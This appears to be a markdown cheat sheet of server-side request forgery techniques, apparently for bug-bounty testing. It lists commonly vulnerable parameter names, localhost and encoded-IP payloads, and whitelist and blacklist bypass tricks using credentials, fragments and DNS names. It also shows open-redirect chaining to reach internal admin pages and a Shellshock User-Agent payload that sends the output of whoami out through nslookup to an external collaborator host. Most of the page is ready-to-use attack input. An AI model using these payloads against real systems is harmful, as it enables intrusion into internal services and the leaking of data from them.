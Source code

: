 ### SSRF
This vulnerability helps attacker to send request to back-end systems. 
If vulnerable >> 500 Internal server error
### Common SSRF Endpoints
```
dest=
path=
window=
next=
site=
reference=
data=
load=
html=
validate=
page=
return=
callback=
domain=
feed=
view=
dir=
request-baskets=
dict=
pdf=
file=
imageuri=
url=
key=
.json=
oauth=
redirect=
api=
dashboard=
config.=
```
### Tips
1. Try with port number, path.
2. File uploads: instead of uploading a file, try sending a URL and see if it downloads the content of the URL. Example: https://hackerone.com/reports/713
## Commom method (api parameter)
```txt
http://localhost/
http://127.0.0.1/
```
## Blind Method
#### Just place burpcollaborator server in referer header
```txt
Referer: http://burpcollaborator.net
```
#### Shellshock exploitation via SSRF
```txt
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).3kobqoj8uv6qbwwlkaf5cvzr1i79v0jp.oastify.com >> Change Uger-Agent info
Referer: http://192.168.0.$1$:8080 >> Bruteforce the ip
```
## Bypassing common SSRF defenses
_____________________________________
### SSRF with blacklist-based input filters
```txt
http://127.1
http://2130706433
http://017700000001
http://127.0.0.1:21/?%0A >> You can change port number if needed.
http://[::]:80/ 
http://spoofed.burpcollaborator.net
```
### SSRF with whitelist-based input filters
#### You can embed credentials in a URL before the hostname, using the @ character. For example:
```txt
    https://expected-host:fakepassword@evil-host
    https://expected-host:fakepassword@burpcollaborator.net
```
#### You can use the # character to indicate a URL fragment. For example:
```txt
    https://evil-host#@expected-host
    https://burpcollaborator.net#@google.com
```
Double URL-encode # to %2523.
#### You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example:
```txt
    https://expected-host.evil-host
    https://google.com.burpcollaborator.net
```
### Bypassing SSRF filters via open redirection
#### For example, the application contains an open redirection vulnerability in which the following URL (http://evil-user.net):
```txt
/product/nextProduct?currentProductId=6&path=http://evil-user.net
```
#### You can leverage the open redirection vulnerability to bypass the URL filter, and exploit the SSRF vulnerability as follows: 
```txt
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```
